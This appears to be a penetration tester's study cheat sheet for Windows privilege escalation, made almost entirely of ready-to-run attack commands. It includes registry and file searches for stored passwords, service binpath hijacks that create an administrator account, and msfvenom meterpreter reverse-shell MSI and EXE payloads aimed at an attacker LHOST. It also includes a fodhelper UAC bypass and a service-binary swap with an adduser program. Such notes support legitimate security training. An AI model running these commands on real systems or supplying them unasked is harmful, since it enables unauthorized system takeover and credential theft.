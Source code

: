 	    dir /s/b *.dat
	    dir /s/b *.ini
	    dir /s/b *.bat
	    dir /s/b *.txt 
	    findstr /si password *.txt
	    reg query HKLM /f password /t REG_SZ /s
	    reg query HKCU /f password /t REG_SZ /s
	    LOOK AROUND
		dir /s C:\Users
		Check web dir
	    Check LFI Interesting Files.txt
	    **check Program Files for programs with exploits
	    **check user folders--downloads, documents, etc. for interesting files, programs w/ exploits, etc.
	Techniques:
	    ****AccessCHK look for vulnerable services we can exploit, like in  https://sohvaxus.github.io/content/winxp-sp1-privesc.html
	    Unquoted Service Paths:
		search for services:  wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
		check dir permissions: icacls "C:\Program Files\Program"
		create reverse shell and replace:  msfvenom -p windows/meterpreter/reverse_tcp LHOST=[LHOST IP] LPORT=443 -f exe -o Some.exe
		restart original service:  sc stop [service name], then sc start [service name]
	    Modifying the binary service path:
		accesschk.exe -uwcqv "Authenticated Users" * /accepteula
		sc config [service name] binpath= "malicious executable path"
		sc stop [service name], sc start [service name]
		Or:  sc config [service name] binpath= "net user admin password /add"
		sc stop [service name], sc start [service name]
		sc config [service name] binpath= "net localgroup Administrators admin /add"
		sc stop [service name], sc start [service name]
	    AlwaysInstallElevated setting:
		if both are 1: reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
			reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
		msfvenom -p windows/adduser USER=admin PASS=password -f msi -o filename.msi
		Or:  msfvenom -p windows/meterpreter/reverse_https -e x86/shikata_ga_nai LHOST=[LHOST IP] LPORT=443 -f msi -o filename.msi
		msiexec /quiet /qn /i C:\Users\filename.msi
	    World writable files in PF dir:  accesschk.exe -uws "Everyone" "C:\Program Files"  \\  Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
	    From PS:   driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object ‘Display Name’, ‘Start Mode’, Path
		Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}
	    See if 1 (like suid):  reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer  \\  reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer
	Windows Case Studies:
	    whoami /groups
	    even as administrator, we have to elevate access:  powershell.exe Start-Process cmd.exe -Verb runAs
	    ex. fodhelper.exe UAC bypass
		check application manifest w/ sysinternals:  sigcheck.exe -a -m C:\Windows\System32\fodhelper.exe
		REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command
		REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ
		REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f
	    ex. Serviio Insecure File Permissions
		Get-WmiObject win32_service | Select-Object Name, State, PathName| Where-Object {$_.State -like 'Running'}
		service permissions:  icacls "C:\Program Files\Serviio\bin\ServiioService.exe"
		replace service w/ our C code - p.556
		    i686-w64-mingw32-gcc adduser.c -o adduser.exe
		    move "C:\Program Files\Serviio\bin\ServiioService.exe" "C:\Program Files\Serviio\bin\ServiioService_original.exe"
		    move adduser.exe "C:\Program Files\Serviio\bin\ServiioService.exe"